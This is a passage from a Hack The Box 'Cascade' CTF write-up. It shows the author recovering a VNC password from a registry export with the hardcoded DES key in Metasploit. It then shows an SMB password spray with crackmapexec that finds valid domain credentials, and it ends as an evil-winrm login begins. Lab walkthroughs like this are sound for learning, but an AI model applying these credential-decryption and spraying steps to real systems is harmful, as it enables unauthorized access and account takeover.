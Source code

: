 "NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```

As soon as I saw the VNC install .reg key I knew there would be a password in it, and I was not dissapointed.  
https://github.com/frizb/PasswordDecrypts

>VNC uses a hardcoded DES key to store credentials. The same key is used across multiple product lines.

```
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
=> "sT333ve2"
```

```
zweilos@kalimaa:~/htb/cascade$ crackmapexec smb -u users -p passwords -d Cascade 10.10.10.182
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:Cascade) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\CascGuest:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\CascGuest:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\arksvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\arksvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] Cascade\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] Cascade\s.smith:sT333ve2
```


## Road to User

### Further enumeration

### Finding user creds


### User.txt

```
zweilos@kalimaa:~/htb/cascade$ evil-winrm -u s.smith -p sT333ve2 -i 10.10.10.182

